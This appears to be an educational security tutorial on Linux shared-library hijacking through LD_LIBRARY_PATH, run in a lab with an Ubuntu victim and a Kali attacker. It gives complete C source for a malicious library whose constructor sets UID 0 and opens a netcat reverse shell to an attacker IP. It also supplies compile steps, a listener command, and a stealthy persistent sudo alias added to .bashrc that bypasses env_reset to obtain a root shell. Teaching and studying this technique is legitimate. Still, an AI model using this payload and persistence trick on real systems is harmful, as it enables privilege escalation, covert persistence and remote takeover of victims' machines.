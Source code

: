 # Hijcaking Shared Library
* * *
## Intoduction To Linux Shared Libraries

You can think of shared libraries as a collection of functions and data designed to be used by multiple programs. They are typically identified by the .so (shared object) extension and are linked dynamically at runtime, which not only reduces the size of executables but also boosts system efficiency. However, it's important to note that any changes to a shared library can impact all the programs that rely on it.
In the Linux ecosystem, shared libraries commonly use the Executable and Linkable Format (ELF), a standard file format for executables, object code, shared libraries, etc.

## The Search Path for Shared Libraries
When a Linux application is executed, it follows a specific sequence to locate its required libraries. Once it finds the required library, it stops searching and loads that library. Here’s how the search process works:
- The application first checks the directories listed in its Runtime Library Search Path (`RPATH`), which is embedded within the executable itself.
- Next, it looks in the directories specified in the `LD_LIBRARY_PATH` environment variable. This variable allows users to define custom library paths without modifying the system-wide configuration.
- Similar to RPATH, the Runtime Search Path (`RUNPATH`) is another directory list embedded in the executable but is checked after `LD_LIBRARY_PATH`.
- The application then checks the directories listed in /etc/ld.so.conf configuration file. 
- Finally, the search proceeds to the standard system library directories, which include `/lib`, `/lib64`, `/usr/lib`, `/usr/lib64`.


## Hijcak Shared Library: A Practical Guide
Looking at how Linux searches for shared libraries reveals a potential security risk: an attacker can manipulate this process by placing malicious versions of libraries in earlier locations, thus controlling the application's behavior. This technique, known as library hijacking, exploits the order in which Linux searches for shared libraries.

One common method involves controlling the `LD_LIBRARY_PATH` environment variable. This variable allows users to override the default library paths, often used for testing new library versions. However, it can also be exploited to inject malicious libraries, altering a program's behavior or even executing harmful code to escalate privileges.

Let’s dive into a practical example. We'll demonstrate how to hijack the execution of a program on a testing machine running Ubuntu by introducing a malicious library called `mylibrary`.

### Writing the Malicious Library
First, we need to create our malicious library. The following C code defines a library that opens a reverse shell when loaded
```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

static void revShell() __attribute__((constructor));

void revShell() {
	setuid(0);
	setgid(0);
	printf("Reverse Shell via library hijacking... \n");
		const char *ncshell = "nc -e /bin/sh 192.168.171.1 7777 &";
	system(ncshell);
}
```

The first four lines consist of standard header files. Following this, `revShell()` is declared with the constructor attribute. A constructor is a function that executes when the library is first initialized to set up necessary code. After that, the `revShell()` constructor function is implemented. Within this function, we set the user ID (`UID`) and group ID (`GID`) to 0, providing root privileges if executed in a sudo context. Additionally, a message is printed to denote the execution of the code. Finally, netcat is used to establish a reverse shell, connecting to the attacker's machine on port 7777.

### Compiling the Malicious Library
To compile our shared library, we use the following commands:
```sh
gcc -Wall -fPIC -c mylibrary.c -o mylibrary.o
```
`-Wall`: Enables all compiler's warning messages.
`-fPIC`: Generates position-independent code, suitable for shared libraries.
`-c`: Compiles the code without linking.
`-o`: Specifies the output file name.

### Create the Shared Library
After compliation is done, we need to create the shared library. This is done by using the `-shared` parameter to tell `gcc` we’re creating a shared library from our object file. We then specify an output file again, this time with the name libhax.so
```sh
gcc -shared mylibrary.o -o libmylibrary.so
```


### Identifying a Suitable Application
After creating our malicious shared library, the next step is to utilize it. Two considerations arise: firstly, selecting a program that the victim is likely to execute with elevated privileges, and secondly, ensuring that the hijacking of a shared library does not cause the program to crash. Remember, when we hijack a library, it will not be available to that program.

For this demonstartion we will use the `ps` command as our target. Users often run ps with sudo to display processes with elevated permissions, making it a suitable candidate for our attack.

Let's identify the libraries `ps` uses. We'll use the `ldd` command on the target machine to list these dependencies. The output will include something like:
```sh
ldd /bin/ps
	....
	libgpg-error.so.0 => /lib/x86_64-linux-gnu/libgpg-error.so.0 (0x00007ffff6614000)

```
![bff79b0e3300b9bdd2881248892f6575.png](:/3a3b39d3879b48d1a3af479e76f47448)
The `libgpg-error.so.0` library appears to be a good candidate for hijacking. It handles error reporting and is likely to be loaded but not frequently called during normal operation, minimizing the risk of breaking the program.

### Setting Up the Environment
Next, we set up the environment to hijack the `libgpg-error.so.0` library. We will rename our malicious `.so` file to match the target library and configure the `LD_LIBRARY_PATH` to point to the location of our malicious library:
```sh
cd /home/msbit/Labs/shared_lib/ld_lib_path
export LD_LIBRARY_PATH=/home/msbit/Labs/shared_lib/ld_lib_path
cp libmylibrary.so libgpg-error.so.0
```
![2ee7a19814959b51127c61438b251c78.png](:/ebb5c175064e4af3bc206353d784efdc)

### Executing the Target Program
Before running the ps command with our malicious library, we need to set up a netcat listener on the attacker's machine. This listener will wait for the reverse shell connection on port 7777.
```sh
rlwrap nc -lvp 7777
```

Now, with our environment prepared, we can execute the `ps` command on the victim's machine. 
```sh
ps
ps: /home/msbit/Labs/shared_lib/ld_lib_path/libgpg-error.so.0: no version information available (required by /lib/x86_64-linux-gnu/libgcrypt.so.20)
Reverse Shell via library hijacking... 
   PID TTY          TIME CMD
  2023 pts/18   00:00:00 bash
  2824 pts/18   00:00:00 ps
  2826 pts/18   00:00:00 sh
```

On the attacker's terminal, you should now see the reverse shell connection. This output indicates that the shell is running with the privileges of the user who executed the `ps` command. 
![0ea16922d15d43b3049304e9d87d14bf.png](:/994fb40e150a4f059b3f42d861b25847)

However, if the `ps` command is run with sudo, no reverse shell will be received at the attacker side.
![ef5326ad8245461c8940e604c656625a.png](:/d0e330937f7a4f2fb3ed465ed5f8e534)


## Gaining Root Shell
One of the challenges in exploiting the `LD_LIBRARY_PATH` environment variable is that most modern operating systems do not pass user environment variables when using `sudo`. This behavior is controlled by the `env_reset` setting in the `/etc/sudoers` file, which is enabled by default. When `env_reset` is active, running a command with `sudo` will not include `LD_LIBRARY_PATH` or other user-defined environment variables. This can limit the effectiveness of our library hijacking attempt, as the malicious library won't be loaded when the program is executed with elevated privileges.
![1d4df0ae25273d88220b7602b9336b24.png](:/85985f67457a41dfa1e8864aa4b7c5a5)

To circumvent this restriction, we can create an alias for `sudo` that includes the `LD_LIBRARY_PATH` variable. This method can be applied temporarily in the current terminal session or more stealthily by adding it to the `.bashrc` file.
- Temporary Alias:
```sh
alias sudo='sudo LD_LIBRARY_PATH=/home/msbit/Labs/shared_lib/ld_lib_path'
```

- Persistent Alias in .bashrc
```sh
echo 'alias sudo="sudo LD_LIBRARY_PATH=/home/msbit/Labs/shared_lib/ld_lib_path"' >> ~/.bashrc
source ~/.bashrc
```
By setting this alias, any command run with sudo will include our modified `LD_LIBRARY_PATH`.

Let's try again, before running the `ps` command with `sudo`, set up a netcat listener on the attacker's machine to capture the reverse shell. Now, execute the `ps` command with `sudo`
```sh
sudo ps
```

On the attacker's terminal, you should see the reverse shell connection. This indicates that the shell is now running with root privileges due to the `sudo` command
![679dbad3e52ce2d0f384aa800a5f31f1.png](:/f8ce7a3d07c34907bd6ead8d5f4299cc)


Happy Learning...
Mahmoud Jadaan

### Test Environment

- Victim
  - Ubuntu (16.04.7 LTS (Xenial Xerus), x86_64 GNU/Linux)
  - netcat-traditional/xenial,now 1.10-41 amd64
  - VIM - Vi IMproved 7.4
 
- Attacker
  - Kali GNU/Linux Rolling 6.6.15-2
